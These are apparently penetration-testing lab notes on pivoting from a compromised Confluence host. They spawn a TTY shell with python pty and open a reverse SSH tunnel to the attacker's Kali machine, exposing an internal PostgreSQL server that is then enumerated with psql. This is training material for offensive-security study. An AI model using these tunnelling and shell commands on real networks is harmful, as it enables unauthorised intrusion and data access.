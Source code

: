_NOTE_: In order to connect back to the Kali SSH server using a username and password you may have to explicity allow password-based authentication by setting `PasswordAuthentication` to **yes** in `/etc/ssh/sshd_config`.

Initial access to CONFLUENCE01, get TTY shell.

```hlt:1
confluence@confluence01:/opt/atlassian/confluence/bin$ python3 -c 'import pty; pty.spawn("/bin/bash")'
<in$ python3 -c 'import pty; pty.spawn("/bin/bash")'
```

Listen on KALI at 127.0.0.1:2345

Forward traffic to PostgreSQL at 10.4.50.215:5432

```hlt:1
confluence@confluence01:/opt/atlassian/confluence/bin$ ssh -N -R 127.0.0.1:2345:10.4.50.215:5432 kali@192.168.118.4
< 127.0.0.1:2345:10.4.50.215:5432 kali@192.168.118.4  
```

SSH Connection success. 

Confirming remote port forward:

```hlt:1,3
kali@kali:~$ ss -ntplu
Netid State  Recv-Q Send-Q Local Address:Port Peer Address:PortProcess
tcp   LISTEN 0      128        127.0.0.1:2345      0.0.0.0:*
tcp   LISTEN 0      128          0.0.0.0:22        0.0.0.0:*
tcp   LISTEN 0      128             [::]:22           [::]:*
```

Using #psql to enumerate PGDATABASE01 directly from Kali

```hlt:1,7
kali@kali:~$ psql -h 127.0.0.1 -p 2345 -U postgres
Password for user postgres: 
psql (14.2 (Debian 14.2-1+b3), server 12.11 (Ubuntu 12.11-0ubuntu0.20.04.1))
SSL connection (protocol: TLSv1.3, cipher: TLS_AES_256_GCM_SHA384, bits: 256, compression: off)
Type "help" for help.

postgres=# \l
                                  List of databases
    Name    |  Owner   | Encoding |   Collate   |    Ctype    |   Access privileges   
------------+----------+----------+-------------+-------------+-----------------------
 confluence | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | 
 postgres   | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | 
 template0  | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | =c/postgres          +
            |          |          |             |             | postgres=CTc/postgres
 template1  | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | =c/postgres          +
            |          |          |             |             | postgres=CTc/postgres
(4 rows)

postgres=# 
```
